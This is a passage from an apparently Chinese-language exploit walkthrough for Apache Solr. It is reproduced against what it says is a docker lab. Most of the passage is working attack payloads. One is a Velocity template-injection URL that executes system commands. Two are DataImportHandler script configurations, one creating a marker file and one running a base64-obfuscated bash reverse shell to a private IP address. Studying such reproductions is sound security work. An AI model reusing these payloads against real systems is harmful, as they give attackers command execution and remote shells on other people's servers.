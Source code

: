![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YPVz9FuptoqxZh6f4BljQ4vWYKia0xuuuibibibYcOWdGos30AkTzdylDiaA/640?wx_fmt=png)

3. 使用 EXP 进行攻击

```
http://ip:8983/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YXPDGEWeCpIcBjXulfxBIWm7oO2qDkBYDE6pkHN5usVX9TArLw26IaQ/640?wx_fmt=png)

4. 成功执行系统命令  

******另一种执行命令的方法******

1. 选择刚创建好的 test 核心，选择 Dataimport 功能并选择 debug 模块，将以下 POC 填入 (原来的删除)

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity 
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YT4A8Cr9LI4ia9l3zrSdbhPJCAb5Wczf5so8SQf8qCeN9uNxmQrXNJXQ/640?wx_fmt=png)

2. 点击 Execute with this Confuguration 执行 POC，发送数据包

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YjM7xEEfVg2q5xP0tAZ6iciaRZXx6gh2U3L7LLLzhtTdwqgFpmMNDfu3Q/640?wx_fmt=png)

3. 执行 POC 成功后，进入 docker 容器，可以难倒 /tmp/success 已成功创建

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0Y6FoZSU26BJJWlDWc9NWWerhCKiczxIFESmD6heNYk5osajmrDToqbyw/640?wx_fmt=png)

4. 反弹 shell  
修改 POC 后，点击提交按钮发送

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUwLjE2Ny8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity 
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```
